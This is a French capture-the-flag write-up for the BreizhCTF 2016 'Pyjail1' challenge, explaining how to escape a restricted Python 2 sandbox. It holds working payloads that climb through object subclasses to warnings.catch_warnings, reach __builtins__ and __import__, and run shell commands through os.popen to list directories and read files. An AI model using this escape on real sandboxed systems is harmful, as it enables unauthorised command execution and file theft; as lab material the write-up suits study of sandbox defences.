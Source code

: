 # BREIZHCTF 2K16
** Chall:** Pyjail1 
**Points:** 300 |
**Taux de réussite:** 36% |



Le titre de ce challenge nous donne un bonne piste pour le résoudre.
Pour commnecer on cherche les fonctions autorisées.

En essayant quelques une on découvre que y a seulement la fonction dir qui est autorisée.

L'idée pour résoudre ce chall est de trouver une méthode accessible qui pourrait nous permettre d'exécuter une commande sur le système ou de trouver un chemin vers la fonction "__import__" de python afin de charger le modue "os".


En exécutant la commande suivante sur le serveur on obtient une liste de types et de classes accessbiles depuis notre "jail" :
```
>print ().__class__.__base__.__subclasses__()

[..., <class 'warnings.catch_warnings'>, ...]
```
On obtient une impotante liste de classes et de type exploitable.
Nous allons exploiter la classe "warnings.catch_warnings" car elle a un attribut qui nous intéresse "_module". (cf: https://hg.python.org/cpython/file/2.7/Lib/warnings.py)

On commence par crée une instace de cette classe dans une variable :
```
>wclass = ().__class__.__base__.__subclasses__()[59]()

```

Ensuite on regarde ce le contenu de l'attribut "_module"
```
>print wclass._module
<module 'warnings' from '/usr/lib/python2.7/warnings.pyc'>
>print dir(wclass._module)
['WarningMessage', '_OptionError', '__all__', '__builtins__', '__doc__', '__file__', '__name__', '__package__', '_getaction', '_getcategory', '_processoptions', '_setoption', '_show_warning', 'catch_warnings', 'default_action', 'defaultaction', 'filters', 'filterwarnings', 'formatwarning', 'linecache', 'once_registry', 'onceregistry', 'resetwarnings', 'showwarning', 'simplefilter', 'sys', 'types', 'warn', 'warn_explicit', 'warnpy3k']

```

Un attribut très intéressant apparait, c'est "__builtins__".
```
>print wclass._module.__builtins__
 {..., '__import__': <built-in function __import__>, ...}
```
Et bingo, on a accès la fonction "__import__".

Maintenant qu'on a accès à cette fonction il ne reste plus qu'à importer le module os et exécuter des commandes sur le système afin de récupérer le flag.

```
>print wclass._module.__builtins__['__import__']('os').popen("pwd && ls -alR ").read()
>print wclass._module.__builtins__['__import__']('os').popen("cat flag").read()
BZH{flag flag \o/}
```
PS:  j'ai oublié de copier le flag ^^

De même on exécute une commande pour récupérer le code du chall "cat python_vm1.py".


